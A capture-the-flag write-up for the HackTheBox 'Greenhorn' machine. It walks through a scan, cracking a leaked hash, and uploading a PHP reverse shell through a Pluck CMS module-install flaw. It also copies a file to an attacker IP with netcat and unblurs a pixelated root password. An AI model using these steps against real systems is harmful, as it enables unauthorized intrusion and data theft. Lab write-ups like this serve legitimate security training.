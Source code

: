 ```yaml
---
layout: post
title:  "HTB: Greenhorn Writeup"
date:   2024-08-26 13:08:01 -0400
categories: CTF
---
```



This is a fun box. Usage starts with some thorough enumeration revaling a password hash. We find that password is reused on the admin portal, which opens up a file upload vulnerability (CVE), which gets us a reverse shell as www. Password reuse also works for a pivot here, so we switch to a new user before using a pretty cool python tool to deblur a shared password image. 


## Enumeration

As usual for an easy box, I set up a basic scan of the IP

{% highlight bash %}
nmap -sC -sV 10.10.11.25
nmap -p- 10.10.11.25
{% endhighlight%}

Which shows 
![image](https://github.com/user-attachments/assets/a847444f-815b-49b8-baa7-e9f147801bf7)

So I add greenhorn to /etc/hosts

{% highlight bash %}
echo '10.10.11.25 greenhorn.htb' | sudo tee -a /etc/hosts
{% endhighlight%}

The webpage has a couple welcome landing pages, with nothing interesting. 
![image](https://github.com/user-attachments/assets/609beccb-e957-4f54-97ab-03e489399c8d)
![image](https://github.com/user-attachments/assets/bdc78233-f144-48ff-8a3b-6ef74ff0939a)

But we do get the admin page pretty quick: 
![image](https://github.com/user-attachments/assets/0fb0f572-1804-44db-bba0-e0b146ad6a74)

Which shows version 4.7.18 for [pluck] (https://github.com/pluck-cms/pluck).
Looking for version-specific vulnerabilities turns up an RCE vulnerability for CVE-2023-50564. Too bad, it appears to need admin web access, which we don't have yet. 
![image](https://github.com/user-attachments/assets/273c0fb5-ab2d-4e19-b246-1acc53dd3551)

There don't appear to be default credentials, so I go check out the other open port. http://greenhorn.htb:3000
Which takes us to a gittea instance. 

Clicking in, we see a repository with pluck information. Ok, I'll bite. 
In login.php we find this bit, showing us how logins happen: 
![image](https://github.com/user-attachments/assets/77e14ae0-666f-4746-a363-43722779e480)

And in /data/settings/pass.php, we find this, which appears to be the same variable storing a hash: 
![image](https://github.com/user-attachments/assets/add85f06-2be1-4aa3-8c8f-f2d90ea554bd)

We don't even have to fire up hashcat, https://crackstation.net/ works right away. 
![image](https://github.com/user-attachments/assets/6d4b86f2-74e5-47a4-beb1-fe5b67225f3e)

And it's actually that easy. We don't even have to find a username. 
![image](https://github.com/user-attachments/assets/2f3fbcb9-288f-4d00-bd6c-7b9be0b3d9ea)

Now we can circle back to the vulnerability. I found this site most helpful. https://www.nu11secur1ty.com/2023/07/pluck-4718-fi-rce.html
A POC exists, but it's not a terribly complex vuln, so I opted to exploit it on my own. 
Quick trip to revshells, I opted for the PHP PentestMonkey shell. 

For the exploit, we have to navigate to options > manage modules > install a module
And uploading the .php file won't work, we have to convert it to a zip first. 

{% highlight bash %}
zip rev.zip rev.php
{% endhighlight%}

![image](https://github.com/user-attachments/assets/932b0556-b87d-4c71-88e0-9443deec149e)

Foothold secured!
![image](https://github.com/user-attachments/assets/878df8b4-86ea-48b9-9b40-e76a59f64ff2)

I spend some time looking around the webpage directories, but dont find much. Eventually I retry the password we found earlier. 

{% highlight bash %}
su - junior
{% endhighlight%}

Which is enough to get the user flag. 

![image](https://github.com/user-attachments/assets/25d0b311-9487-4717-a875-bac8858a209a)

I can also see an interesting pdf file, so I port it over to my machine. 
{% highlight bash %}
nc -lvp 8002 > OpenVAS.pdf
{% endhighlight%}

{% highlight bash %}
nc 10.10.14.67 8002 < ./'Using OpenVAS.pdf'
{% endhighlight%}

Which appears to be the Admin bragging to junior about their openvas privileges. 
![image](https://github.com/user-attachments/assets/39beb97e-cd4c-4a22-bf2e-f44fb8a74203)

After stumbling around for a while, I got pointed towards this repository: 
https://github.com/spipm/Depix
![image](https://github.com/user-attachments/assets/d0cf9353-ab2c-46f1-9733-47d098c8a23f)

Which looks pretty cool. It was little tempermental for me though. I couldn't screenshot from the pdf and use the pic, no matter how I zoomed or cropped. I eventually ended up using a webpage to pull the image directly. 
https://tools.pdf24.org/en/extract-images#s=1724698526623

{% highlight bash %}
python3 depix.py -p ../0.png ./images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png 
{% endhighlight%}

But it does work!

![image](https://github.com/user-attachments/assets/cae88432-d20f-4ce3-bdb0-cc62b2b3b5d0)

{% highlight bash %}
su - root 
{% endhighlight%}

![image](https://github.com/user-attachments/assets/4ab7cb1b-d952-46df-bfd0-986273f10010)


